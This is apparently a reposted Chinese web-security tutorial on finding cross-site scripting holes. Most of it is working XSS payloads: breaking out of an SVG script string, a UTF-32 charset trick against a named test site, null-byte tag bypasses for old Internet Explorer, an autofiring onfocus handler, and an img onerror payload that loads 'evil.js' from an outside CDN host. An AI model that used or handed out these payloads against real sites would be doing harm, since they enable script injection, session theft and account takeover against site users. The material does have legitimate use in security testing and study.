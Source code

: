当返回结果在svg标签中的时候，会有一个特性
```
<svg><script>varmyvar="YourInput";</script></svg>
```
YourInput可控，输入
```
www.site.com/test.php?var=text";alert(1)//
```
如果把”编码一些他仍然能够执行:
```
<svg><script>varmyvar="text";alert(1)//";</script></svg>
```
浏览器bug

字符集的bug在IE中出现过很多次，第一个就是UTF-7，但是这个只在之前的版本中可用，现在讨论一个在现在的浏览器当中可以执行的javascript。

http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v=XSS
这个页面当中我们可控当前页面的字符集，当我们常规的测试时：

http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v="><img src=x onerror=prompt(0);>
返回结果可以看到双引号被编码了：
```
<html>
<meta charset="utf-8"></meta>
<body>
<input type="text" value=""><img src=x onerror=prompt(0);>"></input>
</body>
</html>
```
设置字符集为UTF-32：

http://xsst.sinaapp.com/utf-32-1.php?charset=utf-32&v=%E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80
上面这个在IE9及以下版本可以执行成功。

利用0字节绕过：
```
<scri%00pt>alert(1);</scri%00pt>
<scri\x00pt>alert(1);</scri%00pt>
<s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>
```
在IE9及以下版本有效。

其他等等一系列浏览器特性的XSS可以参考以下文章：

http://drops.wooyun.org/tips/147

增加了一个比较好玩的 payload :
```
<img src=1 onerror="s=document.createElement('script');s.src='//7sbs9y.com1.z0.glb.clouddn.com/evil.js';document.body.appendChild(s);"
```
再新增了一个：
```
<awesome id="lol" onfocus="alert(1)" tabindex=0>
```
通过这个技巧可以在任何标签（包括未知标签）内实现无需交互的XSS攻击（在Firefox以外的浏览器有效）
0x02 总结

本文主要是一个测试XSS的思路流程，并没有把所有的payload写全，其实也没有人能够写全，只是列了一个大体的框架，大家实际在寻找的过程中可以不断慢慢的根据这种思路补充自己的payload，想必呢，一定会有很大的进步的！~

 

原文 http://drops.wooyun.org/tips/845  乌云上的老文章了，因为有时候一些记不住，转载过来只为学习使用

另外推荐一篇整理的也不错 http://insight-labs.org/?p=533

